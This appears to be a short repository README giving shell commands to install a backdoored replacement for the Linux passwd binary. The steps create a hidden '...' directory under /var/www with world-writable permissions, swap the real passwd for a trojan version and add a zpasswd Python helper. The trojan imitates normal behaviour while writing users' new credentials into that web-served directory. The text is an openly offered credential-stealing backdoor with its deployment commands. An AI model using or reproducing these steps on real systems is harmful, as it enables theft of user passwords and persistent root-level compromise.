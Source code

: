 This is a backdoored passwd

You must create a ... directory in /var/www

mkdir /var/www/...

Give it 777 permissions and owned by root

chown root:root /var/www/...
chmod 777 /var/www/...

Next, you might want to make backup of the original passwd binary

mv /usr/bin/passwd /usr/bin/passwd.orig

Move the backdoored passwd binary into /usr/bin

mv passwd /usr/bin

Make root own it and make 755 permissions

chown root:root /usr/bin/passwd
chmod 755 /usr/bin/passwd

Move the zpasswd python script into /usr/bin

mv zpasswd /usr/bin

chown root:root /usr/bin/zpasswd
chmod 755 /usr/bin/zpasswd

Now when people run passwd it will emulate the real binary behavior, add the credentials to /var/www/... and then change their password
